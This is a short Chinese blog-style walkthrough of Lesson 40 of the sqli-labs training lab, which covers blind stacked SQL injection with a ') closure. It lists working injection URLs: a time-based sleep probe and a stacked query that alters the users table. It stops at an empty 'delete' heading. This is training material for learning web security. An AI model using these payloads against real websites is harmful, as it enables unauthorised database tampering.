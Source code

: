 ```yaml
---
title: sqli-labs lession-40 GET盲注-堆叠注入-字符型
date: 2018-10-19 10:22:41
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-40 GET盲注-堆叠注入-字符型

---

## 分析

这一课只是是盲注的堆叠注入，并且闭合方式为`')`。

`http://192.168.75.132/sql/Less-40/?id=1') and if(1,sleep(10),null)%23`

![001](/img/sql/Lesson-40/001.png)

## 增

在password字段后添加status字段

``http://192.168.75.132/sql/Less-40/?id=1');ALTER TABLE `security`.`users` 
ADD COLUMN `status` tinyint(1) NOT NULL AFTER `password`;%23``

![002](/img/sql/Lesson-40/002.png)

## 删



